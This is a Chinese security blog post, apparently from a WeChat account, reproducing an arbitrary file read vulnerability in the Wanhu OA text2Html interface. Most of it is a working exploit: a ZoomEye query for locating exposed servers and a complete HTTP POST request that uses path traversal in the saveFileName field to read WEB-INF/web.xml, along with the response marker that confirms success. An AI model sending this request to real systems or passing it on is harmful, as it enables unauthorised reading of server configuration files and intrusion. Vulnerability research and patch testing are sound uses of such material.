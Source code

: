 #  万户OA text2Html 任意文件读取【漏洞复现】   
ChinaRan404  知攻善防实验室   2024-01-27 12:06  
  
关注本公众号，长期推送技术文章  
  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用！！！  
  
简介  
  
万户OA text2Html接口存在任意文件读取漏洞，可读取系统配置文件。  
  
资产  
  
ZoomEye语句：app:"Wanhu ezOFFICE ERP httpd"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/H7ec9FOh7vrAFIgv6toMHvdGY0sBvNANiajYTXonxk6W5whv4XDvVvibMF2Q1ZEv53kciaSQUdiaLx76w2oQ3Z9Ouw/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现  
  
POC:  
```
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1
Host:  
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Length: 63
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
SL-CE-SUID: 1081

saveFileName=123456/../../../../WEB-INF/web.xml&moduleName=html
```  
  
该POC会读取web.xml，以“  
web-  
app”字符串作为存在漏洞回显特征  
  
漏洞存在回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/H7ec9FOh7vrAFIgv6toMHvdGY0sBvNANS7GwQcVvGrOB7cfHmDab59yoA4ABDia4gNY7FWzw3FMlYSCzEnpmWqA/640?wx_fmt=png&from=appmsg "")  
  
  
后台回复“交流群”获取技术交流群链接  
  
